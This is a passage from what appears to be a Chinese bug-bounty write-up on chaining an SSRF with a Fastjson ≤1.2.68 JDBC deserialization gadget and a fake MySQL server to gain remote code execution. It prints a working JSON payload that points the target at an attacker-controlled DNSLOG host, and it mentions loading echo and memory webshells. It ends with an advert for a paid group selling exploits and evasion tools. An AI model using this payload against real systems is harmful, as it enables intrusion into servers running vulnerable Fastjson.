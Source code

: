 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5vcxXGxJwvo3NmiaV5ib2KhkSyfxsZouw4dhrNibcMibW0wyrnkaaHeaefIhHBTiaJ4qHumLOE5IN0LmQ/640?wx_fmt=png&from=appmsg "")  
  
将生成的fastjson1268.bin放到server.py文件同级目录中，运行server.py文件  
  
  
user填入yso_xxx就能触发server.py的get_yso_content函数，此时fastjson测试payload为  
```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.jdbc.JDBC4Connection",
  "hostToConnectTo": "YOUR_DNSLOG",
  "portToConnectTo": 7777,
  "info": {
    "user": "yso_URLDNS_http://YOUR_DNSLOG",
    "password": "pass",
    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
    "autoDeserialize": "true",
    "NUM_HOSTS": "1"
  },
  "databaseToConnectTo": "dbname",
  "url": ""
}
```  
  
很幸运系统成功触发了命令执行ping xx.dnslog.com  
  
  
到此就完成了RCE，证明漏洞危害，提交报告。  
  
## 反序列化改造  
  
  
查看Y4大佬给出的利用链可以发现，其使用的是  
TemplatesImpl  
进行动态加载字节码，那么直接将字节码改为回显马和内存马也是可以的，我将回显马编译为class文件，然后读取该文件，传入到  
_bytecodes中  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5vcxXGxJwvo3NmiaV5ib2KhkrYk0AotxibWLhZiaNcibjqPHibBApEZpIyknicIriba3Nxx6JIvkPu1j5iamQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5vcxXGxJwvo3NmiaV5ib2KhkBRy34VqFZsex6c7JJrlKJCWStQjCOjWGQRtfoTdTAOfNwLIA11KYFg/640?wx_fmt=png&from=appmsg "")  
  
**0x03 总结**  
  
通过必应搜索发现目标旁站，利用前端JS分析找到 /xxx/checkTokenByUrl 接口的 SSRF 漏洞。测试中确认服务端使用 Fastjson 1.2.58 解析 JSON，报错暴露版本信息。结合 DNS 重绑定绕过修复限制，使用 Fastjson <= 1.2.68 的 JDBC 反序列化利用链，通过 MySQL_Fake_Server 实现文件读取和 RCE，最终触发命令执行（ping DNSLOG）。信息收集是 Web 该漏洞的关键，资产发现与漏洞挖掘相辅相成，成功利用需深度分析与灵活构造 payload。  
喜欢的师傅可以点赞转发支持一下谢谢！  
  
  
**0x04 内部星球VIP介绍V1.4（福利）**  
  
  
**如果你想学习更多另类渗透SRC挖洞技术/攻防/免杀/应急溯源/赏金赚取/工作内推/欢迎加入我们内部星球可获得内部工具字典和享受内部资源/内部群。**  
  
1.每周更新1day/0day漏洞刷分上分，目前已更新至3800+  
  
2.包含网上一些付费工具/BurpSuite漏洞检测插件/  
fuzz字典  
等等  
  
